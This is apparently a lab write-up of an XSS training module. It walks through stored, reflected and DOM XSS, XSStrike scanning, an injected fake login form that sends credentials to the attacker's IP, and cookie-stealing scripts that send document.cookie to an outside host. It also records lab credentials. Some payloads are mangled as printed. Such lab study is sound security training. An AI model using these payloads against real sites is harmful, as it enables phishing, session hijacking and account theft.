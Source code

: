 # Cross-site scripting (XSS)

## XSS Basics

XSS vulnerabilities are solely executed on the client-side and hence do not directly affect the back-end server. They can only affect the user executing the vulnerability. The direct impact of XSS vulnerabilities on the back-end server may be relatively low, but they are very commonly found in web applications, so this equates to a medium risk (low impact + high probability = medium risk), which we should always attempt to reduce risk by detecting, remediating, and proactively preventing these types of vulnerabilities.

<figure><img src=".gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

### Stored XSS

If our injected XSS payload gets stored in the back-end database and retrieved upon visiting the page, this means that our XSS attack is persistent and may affect any user that visits the page.

**To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

`alert(document.cookie)<script>`

### Reflected XSS

Processed entirely at the back-end of the server. Not persistent as they disappear after a page refresh. Reaches the back-end server and returns to us unfiltered and unsanitised… oh the fun we can have!

**Same task, it’s just that this doesn’t persist:**

`alert(document.cookie)<script/>`

### DOM XSS

Processed completely client-side and non-persistent (disappears after a page refresh).

This type of vulnerability exists when you can use Javascript code to alter a Document Object Model (DOM). To truly understand DOM attacks let’s talk about source and sink…

**Same as above just with DOM…**

`<img src="" onerror=alert(document.cookie)>`

### XSS Discovery

Automated Discovery

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

`python xsstrike.py -u “http://SERVER_IP:PORT/index.php?task=test"`

Manual Discovery — XSS Payloads

Long story short, I might need to do some more python classes at some point. Python scripts would make this a hell of a lot more useful later on in my XSS seeking endeavours.

**Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter?**

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

**What type of XSS vuln is it?**

Literally says “Reflections found” so your answer is “reflected”.

## XSS Attacks

### Phishing

Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

**Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.**

First we use XSStrike python script mentioned earlier to find a payload:

<figure><img src=".gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

`'><a/+/OnMOUSEoVER%09=%09[8].find(confirm)>v3dm0s`

Add it to make it a valid JavaScript piece of code with the login form from earlier:

`ifconfig`

* find your IP

```
‘><script>document.write(‘<h3>Please login to continue</h3><form action=http://10.10.14.63/><input type=”username” name=”username” placeholder=”Username”><input type=”password” name=”password” placeholder=”Password”><input type=”submit” name=”submit” value=”Login”></form>’);document.getElementById(‘urlform’).remove();</script><!--
```

**Crafted malicious final URL:**

{% embed url="http://10.129.85.225/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.14.63%2F%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--" %}

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

### admin:p1zd0nt57341myp455

go to URL: [http://10.129.85.225/phishing/login.php](http://10.129.85.225/phishing/login.php)

login to obtain FLAG

### Session Hijacking

**Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.**

URL: http://10.129.85.225/hijacking/index.php

<figure><img src=".gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

`"><script src=http://10.10.14.63:8080/></script>`

**4x**

<figure><img src=".gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

```
nano script.js
```

```
new Image().src='http://10.10.14.46/index.php?c='+document.cookie;
```

<figure><img src=".gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

login.php -> update cookie and login

<figure><img src=".gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

## Skills Assessment

**What is the value of the 'flag' cookie?**

{% embed url="http://10.129.219.0/assessment/" %}

<figure><img src=".gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Go to Recent post

<figure><img src=".gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

`"><script src=http://10.10.14.63:8080/comment></script>`

`"><script src=http://10.10.14.63:8080/name></script>`

`"><script src=http://10.10.14.63:8080/url></script>`

<figure><img src=".gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

\=> VULn field is URL

```
nano script.js
```

```
new Image().src='http://10.10.14.63:8080/index.php?c='+document.cookie;
```



Write a script in the URL field

`<script src=http://10.10.14.63:8080/script.js></script>`

<figure><img src=".gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

